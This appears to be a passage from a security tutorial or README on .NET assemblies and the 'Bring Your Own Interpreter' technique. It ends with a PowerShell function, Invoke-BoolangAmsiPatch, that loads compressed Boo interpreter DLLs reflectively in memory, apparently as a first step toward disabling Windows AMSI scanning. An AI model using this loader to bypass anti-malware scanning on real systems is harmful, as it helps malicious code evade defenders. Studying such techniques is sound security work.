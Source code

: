 ### 1 - Introduction 

**What is .NET Assemblies :**

Assemblies form the fundamental units of deployment, version control, reuse, activation scoping, and security permissions for .NET-based applications. An assembly is a collection of types and resources that are built to work together and form a logical unit of functionality. Assemblies take the form of executable (.exe) or dynamic link library (.dll) files, and are the building blocks of .NET applications. 
They provide the common language runtime with the information it needs to be aware of type implementations.



- .NET assemblies can be executed by any .NET langage
- The function `Assembly.Load()` will reflectively load .NET Assemblies

>⚠️  **.NET Format Assemblies ≠ C Format Assemblies**

### 2 - BYOI Concept

this technique which was discovered [byt3bl33d3r](https://github.com/byt3bl33d3r) consists in using third party parts of the languages present in .NET for embedding a interpreter into a default .NET langage


```powershell
function Invoke-BoolangAmsiPatch {
    $BooLangDLL = @'<BOOLANG_DLL>'@
    $BooLangCompilerDLL = @'<BOOLANG_COMPILER_DLL>'@
    $BooLangParserDLL = @'<BOOLANG_PARSER_DLL>'@
    $BoolangExtensionsDLL = @'<BOOLANG_EXTENSION_DLL>'@

    function Load-Assembly($EncodedCompressedFile){
        $DeflatedStream = [IO.Compression.DeflateStream]::new([IO.MemoryStream][Convert]::FromBase64String($EncodedCompressedFile), [IO.Compression.CompressionMode]::Decompress)
        $UncompressedFileBytes = New-Object Byte[] (1900000)
        $DeflatedStream.Read($UncompressedFileBytes, 0, 1900000) | Out-Null
        return [Reflection.Assembly]::Load($UncompressedFileBytes)
    }
    $BooLangAsm = Load-Assembly($BooLangDLL)
    $BooLangCompilerAsm = Load-Assembly($BooLangCompilerDLL)
    $BooLangParserAsm = Load-Assembly($BooLangParserDLL)
}
```
